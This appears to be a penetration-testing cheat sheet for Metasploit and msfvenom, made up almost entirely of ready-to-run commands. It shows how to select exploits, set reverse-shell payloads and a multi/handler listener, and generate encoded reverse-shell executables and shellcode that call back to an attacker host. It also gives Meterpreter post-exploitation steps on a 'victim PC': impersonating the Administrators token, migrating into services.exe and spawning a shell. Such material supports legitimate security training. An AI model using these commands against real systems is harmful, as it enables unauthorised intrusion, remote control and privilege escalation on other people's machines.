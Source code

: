 metasploit

~~~bash
msfconsole
msfvenom
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
~~~

Launch MSFConsole

~~~bash
msfconsole
~~~

Pick an Exploit (Way into the system)

~~~bash
use exploit/.../.../.../explot_to_use
~~~

Set a Payload (Way back to you)

~~~bash
set PAYLOAD .../.../.../reverse_shell
set PAYLOAD .../.../.../bind_shell
~~~

Show Options to Set

~~~bash
show options
~~~

Set Options within the Exploit and Payload

~~~bash
set LHOST 10.10.10.100
set LPORT 4444
set RHOSTS 10.10.10.10
set RPORT 8080
etc...
~~~

Spool output to file

~~~bash
spool /home/kali/spool_file.txt
~~~

Stopping Spooling

~~~bash
spool off
~~~

Run Exploit

~~~bash
run
~~~

Accepting Connections Within Metasploit

~~~bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
~~~

Breakdown of the above:

use exploit/multi/handler                                        -- Sets up the handler to accept the incoming connection
set PAYLOAD windows/meterpreter/reverse_tcp           -- Sets the payload for the handler to accept and interpret properly (THIS MUST MATCH THE MSFVENOM GENERATED PAYLOAD)
set LHOST your-ip                                                  -- Sets the Local Host IP/Listening Host IP for accepting the incoming connection
set LPORT listening-port                                          -- Sets the Local Port on the Local/Listening Host to Listen on for the incoming connection
run                                                                      -- Runs the Handler that we have set up

Example of the MSFVenom command used to set this attack up:

~~~bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
~~~

Once you have a meterpreter shell, you can type “help” for a list of commands available to you in the Meterpreter session. If you do not have needed commands, you may be running mismatched meterpreter payloads and meterpreter can't get a proper session set up.

Once you have a Meterpreter session active, you can load and use modules on the Victim PC.

To load a module, issue the command:

~~~bash
load <module name>
~~~

ex. load incognito

Incognito is used for Token Impersonation

~~~bash
Meterpreter>load incognito
~~~

List Available Tokens for Impersonation

List groups

~~~bash
list_tokens -g
~~~

list users

~~~bash
list_tokens -u
~~~

Impersonate a Specific Available Token

~~~bash
impersonate_token "BUILTIN\Administrators"
~~~

Verify that you have Successfully Impersonated the Token

~~~bash
getuid
~~~

Find a safe Process to Migrate to for Primary Token (Impersonation is a stepping stone for Primary Token Impersonation)

~~~bash
ps
~~~

Locate the PID for “services.exe” as this is generally a safe process to migrate to for escalation

~~~bash
migrate <PID Number>
~~~

After Successfully Migrating to another process with Higher Privs, you can now execute an interactive shell on the system

~~~bash
shell
~~~

Allows you to generate shellcode or executables for access on a victim machine

Shellcode Generation 

***(This will work without Metasploit as this is a non-meterpreter payload)

~~~bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=LISTENER_PORT EXITFUNC=thread -f c -a x86 -b "\x00\OTHERBADCHARS"
~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
EXITFUNC == Function To Exit Payload Gracefully
-f == Format/File Type
c == C Code (exe would indicate windows binary, py would indicate python script, etc.)
-a == Architecture Specification
x86 == 32Bit Architecture
-b == Bad Character Specification (used for Buffer Overflow Shellcode)
“\x00\OTHERBADCHARS” == Bad Character Definitions

Executable Generation 

***(This will not work outside of Metasploit as this is a meterpreter payload)

~~~bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=4444 -f exe -o badexecutable.exe
~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
-a == Architecture Specification
x86 == 32Bit Architecture
--encoder == Encoder Specification flag
x86/sikata_ga_nai == Encoder Definition
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
-f == Format/File Type
exe == exe binary (exe would indicate windows binary, py would indicate python script, etc.)
-o == Output File Specification Flag
badexecutable.exe == Output File Definition (Path can be included i.e. /home/user/badexecutable.exe)

!IMPORTANT NOTES!

Meterpreter Payloads will only be accepted in Metasploit
Other Payloads should be able to be accepted using NetCat

~~~bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.152 LPORT=4444 -f elf -o shell
~~~
